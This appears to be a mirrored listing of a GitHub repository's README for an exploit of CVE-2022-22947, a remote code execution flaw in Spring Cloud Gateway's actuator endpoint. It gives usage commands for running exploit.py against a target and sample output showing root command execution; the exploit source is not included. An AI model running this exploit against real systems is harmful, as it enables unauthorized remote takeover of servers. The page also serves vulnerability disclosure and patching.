 # CVE-2022-22947

Spring Cloud Gateway < 3.0.7 & < 3.1.1 Code Injection (RCE)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/crowsec-edtech](https://github.com/crowsec-edtech) |
| Url      | [https://github.com/crowsec-edtech/CVE-2022-22947](https://github.com/crowsec-edtech/CVE-2022-22947)                                               |
| Stars    | 36                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# Spring Cloud Gateway < 3.0.7 & < 3.1.1 Code Injection (RCE)
###### CVE: CVE-2022-22947 
###### CVSS: 10.0 (Vmware - https://tanzu.vmware.com/security/cve-2022-22947)
###### Applications using Spring Cloud Gateway are vulnerable to a code injection attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.


#### Usage
```sh
git clone https://github.com/carlosevieira/CVE-2022-22947
cd CVE-2022-22947
pip3 install -r requirements.txt
python3 exploit.py http://target 'id'
```

```sh
john@doe:~/exploit/CVE-2022-22947/$ python3 exploit.py http://localhost:8080 'id'

    ###################################################
    #                                                 #
    #   Exploit for CVE-2022-22947                    #
    #   - Carlos Vieira (Crowsec)                     #
    #                                                 #
    #   Usage:                                        #
    #   python3 exploit.py <url> <command>            #
    #                                                 #
    #   Example:                                      #
    #   python3 exploit.py http://localhost:8080 'id' #
    #                                                 #
    ###################################################
    
[+] Stage deployed to /actuator/gateway/routes/rtxhovup
[+] Executing command...
[+] getting result...
[+] Stage removed!
uid=0(root) gid=0(root) groups=0(root)
```

#### References

https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

https://spring.io/blog/2022/03/01/spring-cloud-gateway-cve-reports-published

https://tanzu.vmware.com/security/cve-2022-22947


## Get the content

```
git clone https://github.com/crowsec-edtech/CVE-2022-22947
cd CVE-2022-22947
```

{% embed url="https://github.com/crowsec-edtech/CVE-2022-22947" %}

<figure><img src="https://avatars.githubusercontent.com/u/97851186?v=4" alt=""><figcaption><p>crowsec-edtech</p></figcaption></figure>
